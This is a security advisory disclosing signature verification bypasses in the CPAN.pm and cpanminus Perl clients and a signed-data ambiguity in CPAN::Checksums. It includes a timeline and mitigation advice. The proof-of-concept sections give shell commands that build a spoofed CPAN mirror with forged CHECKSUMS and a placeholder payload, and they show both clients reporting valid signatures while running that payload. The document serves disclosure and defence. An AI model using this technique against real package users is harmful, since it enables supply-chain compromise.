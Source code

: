 ```yaml
---
layout: post
title: "Signature Verification Vulnerabilities in CPAN.pm, cpanminus and CPAN::Checksums"
author: sgo
category: security
---
```


[CPAN](https://www.cpan.org/) is a repository of over 200,000 modules for the
Perl programming language. [PAUSE](https://pause.cpan.org/) is the "[Perl
programming] Authors Upload Server".

To install Perl modules from CPAN, users can use the `cpan` client provided by
[CPAN.pm](https://metacpan.org/dist/CPAN) included in the Perl core,
or the `cpanm` client provided by
[cpanminus](https://metacpan.org/pod/App::cpanminus).

Both clients have optional support for verifying that `CHECKSUMS` files have a
valid PAUSE PGP signature before checksums are checked and modules are installed.

It was found that `cpan` and `cpanm` are vulnerable to a signature verification
bypass. Additionally, `CPAN::Checksums` (used by PAUSE) does not uniquely
identify packages in the signed `CHECKSUMS` file, enabling a supply chain
attack.

* [CVE-2020-16154] App::cpanminus 1.7044 allows Signature Verification Bypass
* [CVE-2020-16155] CPAN::Checksums 2.12 does not uniquely define signed data.
* [CVE-2020-16156] CPAN 2.28 allows Signature Verification Bypass

For more information see [Addressing CPAN vulnerabilities related to checksums](http://blogs.perl.org/users/neilb/2021/11/addressing-cpan-vulnerabilities-related-to-checksums.html) by Neil Bowers.

# Mitigation

Users should ensure that their CPAN client is configured to use a trusted TLS
(https) protected mirror as signature verification can be bypassed, and signed
`CHECKSUMS` cannot be relied upon for security.



# Signature Verification Bypass

[CVE-2020-16154, CVE-2020-16156]

An attacker can prepend checksums for modified packages to the beginning of
`CHECKSUMS` files, before the cleartext PGP headers. This makes the
`Module::Signature::_verify()` checks in both `cpan` and `cpanm` pass.

Without the `sigtext` and `plaintext` arguments to `_verify()`, the `_compare()`
check is bypassed. This results in `_verify()` only checking that valid signed
cleartext is present somewhere in the file.

## Proof of Concept

First, `Module::Signature` needs to be installed. Then prepare a malicious CPAN
mirror containing a modified package. 

In this example, we spoofed the popular `Mojolicious` package to illustrate:

```shell
mkdir -p cpan/{authors,modules}
wget -O cpan/authors/01mailrc.txt.gz https://cpan.metacpan.org/authors/01mailrc.txt.gz
wget -O cpan/modules/02packages.details.txt.gz https://cpan.metacpan.org/modules/02packages.details.txt.gz
wget -O cpan/modules/03modlist.data.gz https://cpan.metacpan.org/modules/03modlist.data.gz
mkdir -p cpan/authors/id/S/SR/SRI
pushd cpan/authors/id/S/SR/SRI
wget -O CHECKSUMS_ORIG https://cpan.metacpan.org/authors/id/S/SR/SRI/CHECKSUMS
module=Mojolicious-8.56
mkdir $module
echo 'print "### INSERT MALICIOUS CODE HERE ###\n";' > $module/Makefile.PL
tar czf $module.tar.gz $module
sha256=$(sha256sum $module.tar.gz | cut -d' ' -f1)
(echo -en "\$chksum = { '$module.tar.gz' => { sha256 => '$sha256'} };\n__END__\n"; cat CHECKSUMS_ORIG) > CHECKSUMS
popd
cd cpan
# Then serve the repo locally on port 8000
busybox httpd -f -p 8000
```

### CPAN.pm

Prepare environment:
- Install the required signature checker extension
- Add http://localhost:8000 to your `urllist`
- enable `check_sigs`.

```shell
$ cpan Module::Signature
$ cat <<EOF |cpan
o conf check_sigs 1
o conf urllist unshift http://localhost:8000
o conf commit
EOF
```

Demonstrate unsigned code execution:

```shell
$ cpan SRI/Mojolicious-8.56.tar.gz
[..]
Signature for /home/user/.cpan/sources/authors/id/S/SR/SRI/CHECKSUMS ok
Checksum for /home/user/.cpan/sources/authors/id/S/SR/SRI/Mojolicious-8.56.tar.gz ok
[..]
Configuring S/SR/SRI/Mojolicious-8.56.tar.gz with Makefile.PL
### INSERT MALICIOUS CODE HERE ###
No 'Makefile' created  SRI/Mojolicious-8.56.tar.gz
  /nix/store/kfrlhcjp3hp7vs83y701xzd542k8sm7k-perl-5.30.3/bin/perl Makefile.PL -- NOT OK
```


### App::cpanminus

```shell
$ cpanm --local-lib=$(mktemp -d) -v --verify --mirror http://localhost:8000/ Mojolicious@8.56
[..]
Verifying the signature of CHECKSUMS
Verified OK!
Verifying the SHA1 for Mojolicious-8.56.tar.gz
Checksum for Mojolicious-8.56.tar.gz: Verified!
Unpacking Mojolicious-8.56.tar.gz
[..]
Running Makefile.PL
Configuring Mojolicious-8.56 ... ### INSERT MALICIOUS CODE HERE ###
N/A
! Configure failed for Mojolicious-8.56. See /home/user/.cpanm/work/1596121570.28866/build.log for details.
```

# CPAN::Checksums does not uniquely define signed data

[CVE-2020-16155]

`CPAN::Checksums` generates `CHECKSUMS` recursively for each directory under the
`author/` directory structure, and the file path for the packages in the
manifest doesn't contain an author handle (filenames are only unique per
author).

An attacker with PAUSE access can trick PAUSE into generating a valid
`CHECKSUMS` file for another authors package, allowing a malicious mirror or
network attacker to serve a modified package to a target along with a valid but
malicious `CHECKSUMS` file.

## Proof of Concept

A `CHECKSUMS` file impersonating the already published package
`Acme::Study::Perl 0.0.1` has been generated on `pause.cpan.org` and signed by
the PAUSE PGP key.

```perl
0&&<<''; # this PGP-signed message is also valid perl
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA1

# CHECKSUMS file written on Fri Jul 24 15:59:10 2020 GMT by CPAN::Checksums (v2.12)
$cksum = {
  'Acme-Study-Perl-0.0.1.tar.gz' => {
    'md5' => 'd474ea9bf1861d696f05fbfc9e845f77',
    'md5-ungz' => '9614de46e57904130b6f75c0fe8fdd22',
    'mtime' => '2020-07-24',
    'sha256' => 'f239031b672604dafe456909ba3121f0c002e135bbc394fafd072397ecfadc99',
    'sha256-ungz' => 'cef212349a6beb0622193e22d92a21dc9dd7bb2f6d7f79ac0d863188efef0282',
    'size' => 211
  },
  'test.txt' => {
    'md5' => '5150d35ce48639c7c78cffe84891faab',
    'mtime' => '2020-07-24',
    'sha256' => '5d0d196ae349adf45246252d303885db3adfa723139ad5147fe7a767ded1f5b4',
    'size' => 51
  }
};
__END__
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v2.0.14 (GNU/Linux)

iEYEARECAAYFAl8bBU4ACgkQMo2oZ0UPiewySQCfd00WKH3QfVO/GjcYvDosimBs
44AAoJZGxbOludHf6JYItrNOSBq1BHVA
=6gsJ
-----END PGP SIGNATURE-----
```

# Timeline

* 2020-07-08: The Perl Security team was notified
* 2020-07-15: The module authors were notified
* 2020-07-30: CVE numbers assigned
* 2021-11-18: Publication agreed for 23 nov
* 2021-11-23: Coordinated disclosure

# References

- [http://blogs.perl.org/users/neilb/2021/11/addressing-cpan-vulnerabilities-related-to-checksums.html](http://blogs.perl.org/users/neilb/2021/11/addressing-cpan-vulnerabilities-related-to-checksums.html)
- [https://github.com/andk/cpan-checksums](https://github.com/andk/cpan-checksums)
- [https://github.com/andk/cpanpm/blob/ac0963601fe22c3a0b6cc9a8f0d51da5fd6e41ef/lib/CPAN/Distribution.pm#L1182](https://github.com/andk/cpanpm/blob/ac0963601fe22c3a0b6cc9a8f0d51da5fd6e41ef/lib/CPAN/Distribution.pm#L1182)
- [https://github.com/miyagawa/cpanminus/blob/7b574ede70cebce3709743ec1727f90d745e8580/Menlo-Legacy/lib/Menlo/CLI/Compat.pm#L1491](https://github.com/miyagawa/cpanminus/blob/7b574ede70cebce3709743ec1727f90d745e8580/Menlo-Legacy/lib/Menlo/CLI/Compat.pm#L1491)

# Acknowledgements

Thanks to Andreas König, Neil Bowers, Hamish Coleman, Alexander Kjäll and Salve J. Nilsen.

Authored by Stig Palmquist
